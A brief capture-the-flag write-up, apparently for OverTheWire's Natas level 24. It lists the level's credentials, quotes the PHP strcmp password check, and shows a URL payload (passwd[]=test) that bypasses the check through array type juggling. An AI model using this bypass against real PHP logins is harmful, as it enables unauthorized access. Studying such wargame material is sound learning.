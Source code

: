# username
natas24
# password
MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
# web app vulnerability
PHP type juggling
# method of solve
This web app uses the PHP strcmp function to determine if the password is false or not
```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```
We can bypass the strcmp function by giving one of the comparison objects as an array, because strcmp has weird interactions when the data types it is comparing are not the same. So need to feed in an array as the comparison type by injecting into the parameter name. We can this on the URL address bar:
```
natas24.natas.labs.overthewire.org/?passwd[]=test
```
Finis
